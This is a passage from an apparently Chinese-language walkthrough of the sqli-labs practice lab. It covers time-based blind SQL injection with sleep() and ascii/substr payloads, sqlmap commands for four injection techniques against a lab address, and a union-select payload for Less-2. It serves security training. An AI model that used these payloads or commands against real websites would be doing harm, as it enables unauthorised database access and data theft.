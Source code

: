     因为页面连真假都不显示，所以我们只能使用时间来判断，是否有注入。
    eg：
    
        

    1' and sleep(5)#
    
        

当存在注入时，页面会等待5秒才返回网页内容。-
1’ and sleep(length(database())=8)–+-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216144806422.png)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201216144829102.png)-
（正确的时候直接返回，1表示真，不正确的时候等待 5 秒钟，只贴正确的）-
猜测数据库：-
?id=1%27and%20If(ascii(substr(database(),1,1))=115,1,sleep(5))–+-
说明第一位是 s （ascii 码是 115）-
?id=1%27and%20If(ascii(substr(database(),2,1))=101,1,sleep(5))–+-
说明第一位是 e （ascii 码是 101）-
…-
以此类推，我们知道了数据库名字是 security

可以看到因为上面的sleep函数，页面的加载时间延迟了很多。

### sqlmap：

联合查询注入

    sqlmap -u "http://192.168.1.200/sqli-labs/Less-1/?id=1" --dbms=MySQL --random-agent --flush-session --technique=U -v 3 --dbs
    
        

报错注入

    sqlmap -u "http://192.168.1.200/sqli-labs/Less-1/?id=1" --dbms=MySQL --random-agent --flush-session --technique=E -v 3 --dbs
    
        

布尔盲注

    sqlmap -u "http://192.168.1.200/sqli-labs/Less-1/?id=1" --dbms=MySQL --random-agent --flush-session --technique=B -v 3 --dbs
    
        

延时注入

    sqlmap -u "http://192.168.1.200/sqli-labs/Less-1/?id=1" --dbms=MySQL --random-agent --flush-session --technique=T -v 3 --dbs
    
        

## Less-2

    请求方式 get
    
    闭合方式 无闭合
    
    攻击测试 ?id=-1 union select 1,2,version()--+
    